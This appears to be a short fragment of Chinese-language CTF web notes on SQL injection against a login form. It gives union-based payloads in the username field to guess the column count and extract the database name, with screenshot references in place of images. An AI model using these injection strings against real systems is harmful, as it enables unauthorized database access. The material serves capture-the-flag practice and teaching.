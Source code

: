 ## 1、尝试sql注入

### 1.1 猜测列数

username=admin' order by 3 -- -&password=1

有会显说明列数是三列

![image-20231031235038316](CTF(WEB)image/image-20231031235038316.png)

猜测查询语句

### 1.2 联合注入

username=1'union select 1,2,3 -- -&password=1

![image-20231031235211155](CTF(WEB)image/image-20231031235211155.png) 

#### 1.2.1 查询数据库

username=1'union select 1,group_concat(database()),3 -- -&password=1

![image-20231031235719943](CTF(WEB)image/image-20231031235719943.png)
